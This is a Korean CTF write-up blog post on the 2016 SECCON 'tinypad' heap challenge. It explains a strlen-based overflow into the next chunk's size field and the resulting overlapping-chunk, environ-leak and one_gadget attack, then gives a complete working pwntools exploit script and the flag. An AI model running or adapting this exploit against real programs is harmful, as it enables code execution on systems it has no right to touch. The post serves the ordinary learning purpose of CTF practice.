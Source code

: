 ```yaml
---
layout: post
title: "[2016 seccon-ctf] tinypad 풀이"
date: 2018-09-27 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Host : tinypad.pwn.seccon.jp Port : 57463
### Heap Fun as a Service!
### [tinypad](https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf/raw/be9fb6843480f5dbe2538f1366b4709330fa390e/tinypad-0e6d01f582e5d8f00283f02d2281cc2c661eba72) (SHA1 : 0e6d01f582e5d8f00283f02d2281cc2c661eba72) [libc-2.19.so](https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf/raw/be9fb6843480f5dbe2538f1366b4709330fa390e/libc-2.19.so-8674307c6c294e2f710def8c57925a50e60ee69e) (SHA1 : 8674307c6c294e2f710def8c57925a50e60ee69e)

분명 최근에 풀었는데 기억이 안나요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_seccon-ctf/tinypad/01.png)
{: refdef}

`libc_leak`은 따로 말 안해도 될 정도로 쉬우니까 스킵

그리고 `func_edit`에서 `read` 할 길이를 `strlen`으로 정해서 만약 `chunk`를 꽉 채워서 다음 `chunk`의 `size`까지 연결되면 그 값을 바꿀 수 있어요.

이걸로 `overlapping_chunks`을 해서 다른 `chunk`의 값을 마음대로 바꿀 수 있어요.

- - -
# 0x01. 공격 방법

위에서 말했듯 다른 `chunk`의 값을 바꿀 수 있어요.

이걸 어떻게 사용하느냐인데...

`PIE`가 안 걸려있어서 다른 `chunk`가 **bss**에 존재하도록 할 수 있어요.

그리고 `해당 chunk`를 `edit`해서 **bss**의 `tinypad`의 값을 바꿀 수 있고

그걸로 `libc_environ`을 출력하면 `stack_leak`이고 이걸로 어찌어찌해서 `ret`의 값을 바꿀 수 있어요.

그럼 그 값을 `one_gadget`으로 바꿔주면 풀려요.

- - -
# 0x02. 익스플로잇

`writeup`이 많은 문제는 왠지 모르게 자세히 쓰기 싫음

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "tinypad.pwn.seccon.jp"
PORT = 4444
#PORT = 57463

s = remote(HOST, PORT)
pause()

elf = ELF("./tinypad")
libc = ELF("./libc.so.6")

free_got = elf.got["free"]

libc_off = 0x3c4b78
one_off = 0xf1147
environ_off = libc.symbols["environ"]

bss_base = 0x602040

stack_ret_off = -0xf0

def func_add(content):
    s.recvuntil("(CMD)>>> ")
    s.sendline("A")

    s.recvuntil("(SIZE)>>> ")
    s.sendline(str(len(content)))

    s.recvuntil("(CONTENT)>>> ")
    s.sendline(content)

def func_delete(index):
    s.recvuntil("(CMD)>>> ")
    s.sendline("D")

    s.recvuntil("(INDEX)>>> ")
    s.sendline(str(index))

def func_edit(index, content):
    s.recvuntil("(CMD)>>> ")
    s.sendline("E")

    s.recvuntil("(INDEX)>>> ")
    s.sendline(str(index))

    s.recvuntil("(CONTENT)>>> ")
    s.sendline(content)

    s.sendline("Y")

def send_null(index, content):
    payload = ""
    length = len(content)

    for i in range(length):
        j = length - i - 1

        if(content[j] == "\x00"):
            if(payload != ""):
                func_edit(index, "B" * (j + 1) + payload)
            func_edit(index, "B" * j + "\x00")
            payload = ""
        else:
            payload = content[j] + payload

    if(payload != ""):
        func_edit(index, payload)

# libc_leak
func_add("B\n".ljust(0x88, "B")) # 1
func_add("B\n".ljust(0x88, "B")) # 2

func_delete(1)
func_delete(2)
s.recvuntil("INDEX: 1\n")
s.recvuntil("CONTENT: ")
libc_leak = u64(s.recvuntil("\x7f").ljust(0x8, "\x00"))

libc_base = libc_leak - libc_off
libc_one = libc_base + one_off
libc_environ = libc_base + environ_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_one : " + hex(libc_one))
log.info("libc_environ : " + hex(libc_environ))
print

func_add("B" * 0x28) # 1
func_add("B" * 0x18) # 2
func_add("B" * 0x18) # 3
func_add("B" * 0x28) # 4
func_edit(1, "B" * 0x28 + "\x71")
func_delete(2)
func_delete(3)

func_add("B" * 0x68) # 2
payload = "B" * 0x18
payload += p64(0x21) # 3 size
payload += p64(bss_base + 0x108 - 0x10) # 3 fd
payload += "B" * 0x10
payload += p64(0x31) # 4 size
send_null(2, payload.ljust(0x67, "B"))

func_delete(2)
func_add("B" * 0x17) # 2
send_null(2, "/bin/sh\0")

# stack_leak
func_add(p64(libc_environ)) # 3
s.recvuntil("INDEX: 1\n")
s.recvuntil("CONTENT: ")
stack_leak = u64(s.recvuntil("\x7f").ljust(0x8, "\x00"))

stack_ret = stack_leak + stack_ret_off

log.info("stack_leak : " + hex(stack_leak))
log.info("stack_ret : " + hex(stack_ret))
print

func_edit(3, p64(stack_ret))
func_edit(1, p64(libc_one))

s.recvuntil("(CMD)>>> ")
s.sendline("Q")

s.interactive()
```

### SECCON{5m45h1n9_7h3_574ck_f0r_fun_4nd_p40f17_w1th_H0u53_0f_31nh3rj4r}
